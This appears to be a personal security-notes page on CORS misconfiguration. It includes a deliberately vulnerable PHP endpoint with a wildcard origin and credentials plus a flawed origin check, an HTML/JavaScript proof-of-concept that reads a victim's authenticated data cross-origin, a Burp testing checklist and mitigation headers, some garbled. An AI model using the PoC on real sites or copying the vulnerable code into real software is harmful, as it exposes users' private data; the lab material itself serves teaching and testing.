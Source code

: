 # CORS Attack

ow HTTP Headers

Access-Control-Allow: \* or \<origin> or null

Access-Control-Credentials:

if Access Access-Control-Credentials: true

**is Vulnerable CORS**

```php
<?php
session_start();

if($_SESSION['islogin'] != 1){
	header("Location: login.php");
	die();
}
#vulnerablity here
$origin = "mydomain.com";
if ( strpos(@$_SERVER['HTTP_ORIGIN'], "mydomain.com") ){
	$origin = @$_SERVER['HTTP_ORIGIN'];
}

header("Content-Type: application/json");
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Credentials: true");

echo '{"name":"Guest user", "phone number":"0234235","email":"email@gmail.com","adddress":"street 3","own books":["Book one","Book two","Book three"],"private books":["book 4","book 5"]}';
```

POS (if data json use Content-Type = application/json)

```jsx
<!DOCTYPE html>
<html>
<head>
    <script>
        function cors() {
            var xhttp = new XMLHttpRequest();
            url = "<url>";
            xhttp.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    // Display the response in an alert
                    alert(this.responseText);
                    // Or display the response in the demo div
                    document.getElementById("demo").innerHTML = this.responseText;
                }
            };
            xhttp.open("GET", url, true);
            xhttp.withCredentials = true;
            xhttp.send();
        }
    </script>
</head>
<body>
    <center>
        <h2>CORS PoC Exploit</h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button>
        </div>
    </center>
</body>
</html>

```

I will try to find this vuln Uing Burpsuit Come with me!

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

in this request allow credentials if

#### Testing For CORS Vulnerabilities

1. remove/add a domain or like attckerlocalhost

* Map the application • Test the application for dynamic generation • Does it reflect the user-supplied ACAO header? • Does it only validate on the start/end of a specific string? • Does it allow the null origin? \* or yourdoamin,com • Does it restrict the protocol? HTTP or https | 80,8080 or any think • Does it allow credentials?

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Click exploit B000000000M!

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mitigation

**1. restrict Allowed Origins**

**Access-control-Allow-Origin:** [**https://example.com**](https://example.com)

**2. Limit HTTP Methods**

**Access-control-Allow-Methods: GET, POST**

**3. Control Allowed Header**

**Access-Control-Allow-Headers: Content-Type, Authorization**

1. **Access-Control-Allow-Credentials: true**
2. **Validate Input and Origin**
3. **Content security Policy (CSP)**

**Content-Security-Policy: default-src 'self'; script-src 'self'** [**https://example.com**](https://example.com)

[http://localhost/labs/cors/info.php](http://localhost/labs/cors/info.php)
